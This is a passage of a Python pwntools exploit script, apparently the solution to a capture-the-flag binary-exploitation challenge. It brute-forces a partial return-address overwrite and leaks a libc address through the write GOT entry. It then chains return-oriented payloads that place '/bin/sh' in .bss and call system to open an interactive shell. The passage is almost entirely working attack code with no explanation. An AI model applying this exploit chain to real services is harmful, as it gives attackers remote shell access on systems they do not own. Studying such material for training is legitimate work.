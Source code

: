 ```python
	script += "set $base = 0x{:x}\n".format(PIE)
	for bp in breakpoints:
		script += "b *0x%x\n"%(PIE+bp)
	script += "c"
	gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

while (1):
    r = start()
    if args.D:
	    debug(r, [0x1181])

    payload =b''
    payload += flat(0x111, 0x222, 0x333, 0x444, 0x555, 0x666, 0x777, 0x888, 0x401000, elf.got.write)#, 0x401000)#, 0xbbbb)
    if args.R:
        payload += b'\x40\x6f' # 1/16
    else:
        payload += b'\x40\x0f' # 1/16
    #pause()
    r.send(payload)
    try:
        if args.R:
            #r.recvuntil(b'chal: ')
            r.recvuntil(b'xor: ')
        else:
            r.recvuntil(b'xor: ')
        break
    except:
        pass
    r.close()
leak = u64(r.recvuntil(b': ', True).ljust(8, b'\x00'))
dbg('leak')

base = leak - 0x114a20
system = base + 0x50d60
signal = base + 0x42420
gets = base + 0x805a0

bss = 0x404000

payload =b''
payload += flat(0x111, 0x222, 0x333, 0x444, elf.sym.main, 6, signal, 0x8888, 0x999, 0xaaaa, 0xbbbb)
r.send(payload)

payload =b''
payload += flat(0x111, 0x222, 0x333, 0x444, 0x555, 0x666, 0x777, 0x888, 0x9999, bss, gets)
r.sendafter(b'terminated\n', payload)

sleep(1)
r.sendline(b'/bin/sh\x00')
sleep(1)

payload =b''
payload += flat(0x111, 0x222, 0x333, 0x444, 0x5555, bss, system, 0x8888, 0x999, 0xaaaa, 0xbbbb)
r.send(payload)
r.interactive()
r.close()
```
